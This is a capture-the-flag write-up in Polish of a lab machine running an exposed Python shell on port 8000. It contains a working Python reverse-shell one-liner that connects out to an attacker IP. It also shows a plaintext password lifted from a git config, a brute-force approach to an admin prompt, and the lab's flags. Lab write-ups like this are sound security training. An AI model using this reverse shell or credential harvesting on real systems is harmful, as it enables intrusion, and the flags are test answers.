








# **Nmap Results**
```text
# Nmap 7.95 scan initiated Wed Sep 17 16:39:08 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -Pn -p- -T4 -oN nmap_scan.txt 10.10.138.134
Warning: 10.10.138.134 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.187.219
Host is up (0.060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f5:61:7d:a7:81:34:2b:7f:9b:71:8a:a8:7c:9a:40:e9 (RSA)
|   256 19:3e:40:90:26:99:0a:b2:33:98:dc:6a:d4:86:9e:7f (ECDSA)
|_  256 1f:ab:13:97:d5:f1:6b:cd:c9:3e:64:14:2e:98:59:dd (ED25519)
8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop: 
|     source code string cannot contain null bytes
|   FourOhFourRequest, LPDString, SIPOptions: 
|     invalid syntax (<string>, line 1)
|   GetRequest: 
|     name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     name 'OPTIONS' is not defined
|   Help: 
|_    name 'HELP' is not defined
|_http-server-header: SimpleHTTP/0.6 Python/3.11.2
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.95%I=7%D=9/17%Time=68CACB29%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,1,"\n")%r(GetRequest,1A,"name\x20'GET'\x20is\x20not\x20defin
SF:ed\n")%r(X11Probe,2D,"source\x20code\x20string\x20cannot\x20contain\x20
SF:null\x20bytes\n")%r(FourOhFourRequest,22,"invalid\x20syntax\x20\(<strin
SF:g>,\x20line\x201\)\n")%r(Socks4,2D,"source\x20code\x20string\x20cannot\
SF:x20contain\x20null\x20bytes\n")%r(HTTPOptions,1E,"name\x20'OPTIONS'\x20
SF:is\x20not\x20defined\n")%r(RTSPRequest,1E,"name\x20'OPTIONS'\x20is\x20n
SF:ot\x20defined\n")%r(DNSVersionBindReqTCP,2D,"source\x20code\x20string\x
SF:20cannot\x20contain\x20null\x20bytes\n")%r(DNSStatusRequestTCP,2D,"sour
SF:ce\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(Help,1
SF:B,"name\x20'HELP'\x20is\x20not\x20defined\n")%r(LPDString,22,"invalid\x
SF:20syntax\x20\(<string>,\x20line\x201\)\n")%r(SIPOptions,22,"invalid\x20
SF:syntax\x20\(<string>,\x20line\x201\)\n")%r(LANDesk-RC,2D,"source\x20cod
SF:e\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(NotesRPC,2D,"so
SF:urce\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(Java
SF:RMI,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\
SF:n")%r(afp,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20
SF:bytes\n")%r(giop,2D,"source\x20code\x20string\x20cannot\x20contain\x20n
SF:ull\x20bytes\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 17 16:55:13 2025 -- 1 IP address (1 host up) scanned in 965.42 seconds

```

# **Service Enumeration**

## **TCP/8000**
Jest to server HTTP "SimpleHTTP/0.6", jednak na stronie nie ma niczego ciekawego, jedynie wiadomość "Try a more basic connection!"

## **TCP/22**  
SSH
# **Exploit**

Połączenie się po telnet z serwerem http ujawnia, że tak naprawdę połączono się z powłoką języka python3 w wersji 3.8.10



Wiedząc to można przy pomocy skryptu stworzyć reverse shell łączący się do `nc` na komputerze```
```python 3
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.21.251.149",8001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

# **Post-Exploit Enumeration**
## **Operating Environment**

### OS & Kernel
```
uname -a
Linux ip-10-10-14-42 5.15.0-138-generic #148~20.04.1-Ubuntu SMP Fri Mar 28 14:32:35 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux

cat /etc/os-release
NAME="Ubuntu"
VERSION="20.04.6 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.6 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
```


### Current User

```text
 "id" uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

## **Users and Groups**

### Local Users

```text
think:x:1000:1000:,,,:/home/think:/bin/bash
ubuntu:x:1001:1002:Ubuntu:/home/ubuntu:/bin/bash
```


### Local Groups

```text
think:x:1000:
adm:x:4:syslog,ubuntu
dialout:x:20:ubuntu
cdrom:x:24:ubuntu
floppy:x:25:ubuntu
sudo:x:27:ubuntu
audio:x:29:ubuntu
dip:x:30:ubuntu
video:x:44:ubuntu
plugdev:x:46:ubuntu
lxd:x:116:ubuntu
netdev:x:1001:ubuntu
ubuntu:x:1002:
```


## **Network Configurations**

### Open Ports

```text
netstat -tanup | grep -i listen

tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 ::1:25                  :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      - 
```


## **Processes and Services**

### Interesting Processes

```text
root         665  0.0  0.3 235580  7288 ?        Ssl  18:08   0:00 /usr/lib/accountsservice/accounts-daemon
root         666  0.0  0.8 1831816 17492 ?       Ssl  18:08   0:00 /usr/bin/amazon-ssm-agent
root         673  0.0  0.1  81836  3780 ?        Ssl  18:08   0:00 /usr/sbin/irqbalance --foreground
root         674  0.0  0.9  29676 18584 ?        Ss   18:08   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
root         678  0.0  0.1   6824  2768 ?        Ss   18:08   0:00 /usr/sbin/cron -f
root         679  0.0  0.3 232740  6820 ?        Ssl  18:08   0:00 /usr/lib/policykit-1/polkitd --no-debug
root         698  0.0  0.1   8368  3400 ?        S    18:08   0:00 /usr/sbin/CRON -f
root         703  0.0  0.3  17316  7848 ?        Ss   18:08   0:00 /lib/systemd/systemd-logind
root         705  0.0  0.6 393272 11920 ?        Ssl  18:08   0:00 /usr/lib/udisks2/udisksd
root         729  0.0  0.1   5608  2260 ttyS0    Ss+  18:08   0:00 /sbin/agetty -o -p -- \u --keep-baud 115200,38400,9600 ttyS0 vt220
root         733  0.0  0.0   2616   600 ?        Ss   18:08   0:00 /bin/sh -c python3 /root/pyrat.py 2>/dev/null
root         734  0.0  0.7  21872 14516 ?        S    18:08   0:00 python3 /root/pyrat.py
root         737  0.0  0.0   5836  1844 tty1     Ss+  18:08   0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
root         753  0.0  0.5 241380 11128 ?        Ssl  18:08   0:00 /usr/sbin/ModemManager
root         756  0.0  1.0 107948 20780 ?        Ssl  18:08   0:00 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdo
root         762  0.0  0.6 177640 12388 ?        Sl   18:08   0:00 python3 /root/pyrat.py
root         764  0.0  0.3  12196  7328 ?        Ss   18:08   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root        1401  0.0  0.2  38076  4708 ?        Ss   18:08   0:00 /usr/lib/postfix/sbin/master -w
root        1630  0.0  0.4  13948  9136 ?        Ss   18:32   0:00 sshd: think [priv]
root        1638  0.0  0.0      0     0 ?        I    18:32   0:00 [kworker/0:2-events]
root        1869  0.0  0.0      0     0 ?        I    18:35   0:00 [kworker/1:0-events]
root        1870  0.0  0.0      0     0 ?        I    18:36   0:00 [kworker/u4:1-events_power_efficient]
root        1888  0.0  0.2   9272  4432 pts/0    S+   18:42   0:00 sudo -i
root        1896  0.0  0.0      0     0 ?        I    18:47   0:00 [kworker/u4:2-events_power_efficient]
root        1913  0.0  0.0      0     0 ?        I    18:53   0:00 [kworker/u4:0-events_unbound]
syslog       682  0.0  0.2 224500  5272 ?        Ssl  18:08   0:00 /usr/sbin/rsyslogd -n -iNONE
systemd+     609  0.0  0.3  27416  7568 ?        Ss   18:08   0:00 /lib/systemd/systemd-networkd
systemd+     611  0.0  0.6  25492 13028 ?        Ss   18:08   0:00 /lib/systemd/systemd-resolved
systemd+     558  0.0  0.3  90896  6100 ?        Ssl  18:08   0:00 /lib/systemd/systemd-timesyncd
think       1633  0.0  0.4  19064  9660 ?        Ss   18:32   0:00 /lib/systemd/systemd --user
think       1634  0.0  0.2 104964  4408 ?        S    18:32   0:00 (sd-pam)
think       1762  0.0  0.3  14080  6060 ?        S    18:32   0:00 sshd: think@pts/1
think       1763  0.0  0.2   8420  5400 pts/1    Ss   18:32   0:00 -bash
think       1915  0.0  0.1   9048  3364 pts/1    R+   18:56   0:00 ps aux --sort user
www-data    1017  0.0  0.6  22260 12628 ?        S    18:08   0:00 python3 /root/pyrat.py
www-data    1570  0.0  0.0   2616  1820 pts/0    Ss   18:17   0:00 sh
www-data    1578  0.0  0.1   7244  3940 pts/0    S    18:21   0:00 /bin/bash
  
  
  

root używa tego samego programu pyrat.py co www-data
```


### Interesting Services

```text
service --status-all
 [ + ]  apparmor
 [ + ]  apport
 [ + ]  atd
 [ + ]  console-setup.sh
 [ + ]  cron
 [ - ]  cryptdisks
 [ - ]  cryptdisks-early
 [ + ]  dbus
 [ - ]  grub-common
 [ - ]  hwclock.sh
 [ + ]  irqbalance
 [ - ]  iscsid
 [ - ]  keyboard-setup.sh
 [ + ]  kmod
 [ - ]  lvm2
 [ - ]  lvm2-lvmpolld
 [ - ]  open-iscsi
 [ - ]  open-vm-tools
 [ - ]  plymouth
 [ - ]  plymouth-log
 [ + ]  postfix
 [ + ]  procps
 [ - ]  rsync
 [ + ]  rsyslog
 [ - ]  screen-cleanup
 [ + ]  ssh
 [ + ]  udev
 [ + ]  ufw
 [ + ]  unattended-upgrades
 [ - ]  uuidd
```


## **Interesting Files**

### /opt/dev/.git/config.txt

```text
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = _TH1NKINGPirate$_
```

W tym pliku znajdują się dane logowania użytkownika think. 


# **Privilege Escalation**  

Logowanie po SSH na konto `think:_TH1NKINGPirate$_` okazało się skuteczne.

W folderze domowym tego użytkownika znajduje się pierwsza flaga.




### Current User

```text
 "id" uid=1000(think) gid=1000(think) groups=1000(think)
```

Po wejściu do folderu `/opt/dev` przywrócono usunięty plik


Kod pliku `pyrat.py.old`:
``` python
def switch_case(client_socket, data):
    if data == 'some_endpoint':
        get_this_enpoint(client_socket)
    else:
        # Check socket is admin and downgrade if is not aprooved
        uid = os.getuid()
        if (uid == 0):
            change_uid()

        if data == 'shell':
            shell(client_socket)
        else:
            exec_python(client_socket, data)

def shell(client_socket):
    try:
        import pty
        os.dup2(client_socket.fileno(), 0)
        os.dup2(client_socket.fileno(), 1)
        os.dup2(client_socket.fileno(), 2)
        pty.spawn("/bin/sh")
    except Exception as e:
        send_data(client_socket, e

```

W kodzie widać, że istnieje jakiś endpoint który pozwoli ominąć obniżenie pozwoleń z administratora. Wpisując admin w połączenie można zobaczyć, że wyświetli się odpowiedź "Password:".



Pisząc skrypt w pythonie można spróbować włamać się na konto admina za pomocą metody brute-force korzystając ze słownika rockyou.txt.



Zalogowanie się na admina daje dostęp do roota.


Ostatnia flaga:

# **Flags**

### User

```text
996bdb1f619a68361417cabca5454705
```

### Root

```text
ba5ed03e9e74bb98054438480165e221
```


<br>
<br>
